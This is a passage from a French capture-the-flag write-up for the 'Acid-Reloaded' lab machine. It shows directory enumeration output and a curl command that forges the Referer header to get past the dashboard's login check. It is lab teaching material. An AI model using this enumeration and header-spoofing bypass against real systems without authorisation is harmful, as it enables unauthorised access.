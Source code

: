On retrouve notre interface de login sous le dossier `/bin`. C'est repartit pour une seconde énumération :

```
301        9l       28w      330c http://192.168.56.92:33447/bin/includes
302        0l        0w        0c http://192.168.56.92:33447/bin/includes/logout.php
200        0l        0w        0c http://192.168.56.92:33447/bin/includes/functions.php
302        0l        0w        0c http://192.168.56.92:33447/bin/includes/validation.php
200        0l        0w        0c http://192.168.56.92:33447/bin/includes/db_connect.php
301        9l       28w      325c http://192.168.56.92:33447/bin/css
301        9l       28w      328c http://192.168.56.92:33447/bin/styles
301        9l       28w      324c http://192.168.56.92:33447/bin/js
200       44l       94w     1467c http://192.168.56.92:33447/bin/
301        9l       28w      327c http://192.168.56.92:33447/bin/crack
200       12l       27w      309c http://192.168.56.92:33447/bin/error.php
200       44l       94w     1467c http://192.168.56.92:33447/bin/index.php
200       44l       94w     1467c http://192.168.56.92:33447/bin/
200       21l       37w      675c http://192.168.56.92:33447/bin/dashboard.php
200        3l        3w       17c http://192.168.56.92:33447/bin/.gitignore
200       10l      171w     1106c http://192.168.56.92:33447/bin/crack/license.txt
200       14l       83w      472c http://192.168.56.92:33447/bin/crack/README.txt
301        9l       28w      330c http://192.168.56.92:33447/bin/crack/js
301        9l       28w      331c http://192.168.56.92:33447/bin/crack/css
```

Les identifiants par défaut trouvés sur le CTF `Acid: Server` ne fonctionnent pas ici et le script de login ne se montre pas plus vulnérable.

## Devines d'où je t'appelle ?

J'ai peu d'entrées sur lesquelles je peux injecter des payloads alors je me dis que peut être que le script `dashboard` qui me retourne le message suivant :

> You are not authorized to access this page.

m'ouvrira ses portes si je semble venir d'un autre script.

Je  teste donc différents referers et alors que je n'aurais pas parié dessus :

```shellsession
$ curl --referer http://192.168.56.92:33447/bin/includes/validation.php http://192.168.56.92:33447/bin/dashboard.php


<!DOCTYPE html>
<html>
    <head>
        <meta charset="UTF-8">
        <link rel="stylesheet" href="crack/css/style.css">
        <link rel="stylesheet" href="styles/main.css" />
        <title>Acid-Reloaded</title>
    </head>
    <body>
         <div class="wrapper">
                <div class="container">
                                                                        <center><p> <h1>Congratulations </p>
                        <p>You have bypassed login panel successfully.</h1> <br> </center></p>
                        <center><p><h3>Come'on bang your head here. <a href="l33t_haxor.php">Click</a>.</h3></p>

                        <p><h3>If you are done, please <a href="includes/logout.php">log out</a>.</h3></p></center>

                            </body>
</html>
```